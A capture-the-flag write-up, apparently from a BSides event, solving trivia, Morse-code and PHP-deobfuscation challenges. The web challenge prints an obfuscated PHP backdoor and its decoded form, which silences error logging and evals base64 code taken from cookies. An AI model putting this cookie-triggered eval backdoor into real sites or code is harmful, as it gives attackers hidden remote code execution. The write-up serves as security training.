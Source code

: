 # General Information : 130 Point in 4 Challenge
- Rocker : 20 Point

I attack was published about me in Defcon Conference in 2011 I gain access to your phone during the charging process
to execute attack you need a cable that supports power and data connection together
The is Flag `juice jacking`

- Search with police  : 30 Point

I'm a new tool developed by a company who unlocked ios phone in a terrorist attack in San Bernardino, California.
This tool developed to a physical analyzer for smartphones like android and ios
The is Flag `UFED`

- Vegetables : 30 Point

I'm an operating system based on Linux designed to encrypt your data using onion routing and works through USB only
The is Flag `Tails`


- WhoAmi : 50 Point

I'm Jack and I have a penetration testing process for Automated Teller Machine and I don't have any money to buy rubber ducky or any advanced kits.
I've seen on the internet that I can do this tool with myself with some tools based on open-source hardware, I need something can simulate rubber ducky to inject code and enable PowerShell command or execute a command on Windows...
What's the name of this piece amid the family names?
The is Flag `leonardo`

# Web Challenge : d3c0d3 m3 50 Point
- The Challenge is a [zip](https://github.com/X-Vector/CTF/blob/master/Bsides/c99.zip) file Which Contain a php code
```
<?php
$kyo1="JGM9J2NvdW50JzskYT0kX0NPT0tecJRTtecpZihyZecXecNecldCgkYSeck9PSecdecmbCcgJiYgJGMecoJGEpPjMpe2luaec";
$kyo3="zectldmFsecKGecJhc2Uec2NF9kZWNvZGUocHJlZ19ecyZXecBsYWNlKGecFycmF5KCcvW15cdz1cc1ec0vJywnL1xeczLycpLCBhcnJ";
$gj = "bcoxacoxse64cox_coxdcoxecoxccoxode";
$kyo4="heecSgnJywnKycpLCBqb2luKGecFyeccmF5X3NsaWNlKCecRhLCRjKCRhKS0zKSkpKSeckec7ZWNobyAnPC8nLiRrLiecc+Jzt9";
$iuq = "str_replace";
$kyo2="V9zZecXQoJ2Vyeccm9yX2xvZycecsICcvecZGV2L251bGwnKTskecaecz0nYWd7aGlkZGVuecX2eclecuX3BocH0nO2VjecaG8gJzwnLeciRecrLic+J";
$gj = $iuq("cox", "", $gj);
eval($gj($iuq("ec", "", $kyo1.$kyo2.$kyo3.$kyo4)));
?>
```
- first the variable `$iuq` containe a php build in function which is used to replcae any this words `ec` in this variables `$kyo1,$kyo2,$kyo3,$kyo4` with nothing then when excute the code the output will be

```
JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSk9PSdmbCcgJiYgJGMoJGEpPjMpe2luaV9zZXQoJ2Vycm9yX2xvZycsICcvZGV2L251bGwnKTskaz0nYWd7aGlkZGVuX2luX3BocH0nO2VjaG8gJzwnLiRrLic+JztldmFsKGJhc2U2NF9kZWNvZGUocHJlZ19yZXBsYWNlKGFycmF5KCcvW15cdz1cc10vJywnL1xzLycpLCBhcnJheSgnJywnKycpLCBqb2luKGFycmF5X3NsaWNlKCRhLCRjKCRhKS0zKSkpKSk7ZWNobyAnPC8nLiRrLic+Jzt9
```
- decode it with base64 then the output will be
```
$c='count';$a=$_COOKIE;if(reset($a)=='fl' && $c($a)>3){ini_set('error_log', '/dev/null');$k='ag{hidden_in_php}';echo '<'.$k.'>';eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));echo '</'.$k.'>';}
```
- you will see that variable `$a` is `fl` and variable `$k` is `ag{hidden_in_php}` so your flag is `flag{hidden_in_php}`


# Crypto Challenge : abusing 50 Point
- The Challenge is a [mp3](https://github.com/X-Vector/CTF/blob/master/Bsides/abusing.mp3) file Which This Sound Like Morse code
- Go to this [website](https://morsecode.scphillips.com/labs/audio-decoder-adaptive/) then upload mp3 file and you get this result
![Morse code](https://raw.githubusercontent.com/X-Vector/CTF/master/Bsides/morse.png?token=Ac-MuIyfT9F5B5lwWFnKAdTu2I1GK86Nks5cOkg0wA%3D%3D)
- We Play in This Words `ETTE L A G I N M C O D E W E T R U S T` To Get This Result `FLAGINMCODEWETRUST` Then We Submit and we get is wrong Then we add `{}_` to words to be `FLAG{IN_MCODE_TRUST}` and Flag is Correct
